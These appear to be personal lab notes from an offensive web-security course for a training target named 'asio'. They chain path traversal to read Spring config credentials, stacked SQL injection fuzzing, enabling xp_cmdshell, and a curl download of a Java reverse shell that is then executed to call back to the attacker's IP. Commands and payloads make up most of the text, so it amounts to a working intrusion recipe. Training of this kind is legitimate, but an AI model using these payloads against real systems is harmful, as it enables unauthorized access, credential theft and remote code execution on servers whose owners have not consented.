 ##### ASIO

nmap scan

```
nmap asio

sudo nmap -O -Pn asio

```
Content Discovery

```
gobuster dir -u http://asio -w /usr/share/wordlists/dirb/common.txt
```
In the previous Learning Unit, we identified the /specials?menu=winter.html endpoint

We'll need to add several instances of "../" to our payload to traverse back to the base directory of the server. In Repeater, let's change "web200.html" to "../../../../../../../windows/win.ini" and click Send.

Next, let's build a list of file names. We are searching for application.properties or application.yml. Since the file could be in the current directory or a /config subdirectory, we'll add /config to our new file.

```
nano paths.txt
cat paths.txt
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

```
nano files.txt
cat files.txt
application.properties
application.yml
config/application.properties
config/application.yml
```

```
wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z

curl http://asio/specials?menu=../config/application.properties

```

1
(Webb, Syer, et al., 2016), https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files ↩︎

2
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/environment/paths.html ↩︎

3
(Xavi Mendez, 2020), https://wfuzz.readthedocs.io/en/latest/user/getting.html#multiple-payloads ↩︎



We can verify this with a simple stacked query, such as selecting the SQL Server version.

In Repeater, let's update the id parameter to "4;SELECT @@VERSION;". We'll need to encode the space as a plus sign (+) before we click Send.

```
cat tables.txt
newsletter
newsletters
subscription
subscriptions
newsletter_subscription
newsletter_subscriptions
```

```
insert into TABLE_NAME values('EMAIL_VALUE')
```

wfuzz -w tables.txt -w tables.txt -m zip -b JSESSIONID=C0C3B7B39FB409EC20E31AF0B715C801 -d "" "http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')"

The application.properties file contains some additional information that we will find useful.

```
spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ
```
Based on the file, the application may be connecting to the database as the "sa" user. The "sa" user in SQL Server is typically the System Administrator account and has elevated permissions on the server, including the ability to change configuration settings.

Most importantly to us, if our SQL injection payloads are executed under the "sa" user, we should be able to enable and use xp_cmdshell.

First, we need a payload that enables advanced options. We can use Microsoft's documentation1 as the basis of our payload.

```
EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;
```
Next, we'll enable xp_cmdshell. Again, Microsoft's documentation provides the basis of our payload.

```
EXECUTE sp_configure 'xp_cmdshell',1; RECONFIGURE;
```

We'll start a netcat listener at port 8000.

```
kali@kali:~$ nc -nvlp 8000
listening on [any] 8000 ...
Listing 18 - Starting a netcat listener
```

Now that our listener is running, we'll update our SQL injection payload to call curl with xp_cmdshell and pass in our Kali's IP address and the port of our listener. Here's our base SQL injection payload:

```
EXEC xp_cmdshell 'curl http://192.168.48.2:8000/itworked'; 
```
1
(Microsoft, 2022), https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15 ↩︎

Java Reverse shell:

```
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Hello world:

```
class HelloWorldApp {
    public static void main(String[] args) {
        System.out.println("Hello World!"); // Display the string.
    }
}
```

```
cat RevShell.java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

class RevShell {
    public static void main(String[] args) throws Exception {
        String host="192.168.48.2";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    }
}
```

Download revshell:

```
EXEC+xp_cmdshell+'curl+http://192.168.48.2:8000/RevShell.java+--output+%temp%/RevShell.java'; 
```

SQLi payload to run rev shell:

```
EXEC xp_cmdshell 'java %temp%/RevShell.java';
```

1
(Microsoft, 2007), https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/NetCat&ThreatID=2147593673 ↩︎

2
(Swissky, et al., 2022), https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#java-alternative-1 ↩︎

3
(Wikipedia, 2022), https://en.wikipedia.org/wiki/"Hello,_World!"_program ↩︎

4
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/getStarted/application/index.html ↩︎

5
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/index.html ↩︎

6
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/catchOrDeclare.html ↩︎

7
(Oracle, 2021), https://docs.oracle.com/javase/tutorial/essential/exceptions/throwing.html ↩︎

8
(Wikipedia, 2021), https://en.wikipedia.org/wiki/Temporary_folder ↩︎

9
(Oracle, 2022), https://openjdk.java.net/jeps/330 ↩︎



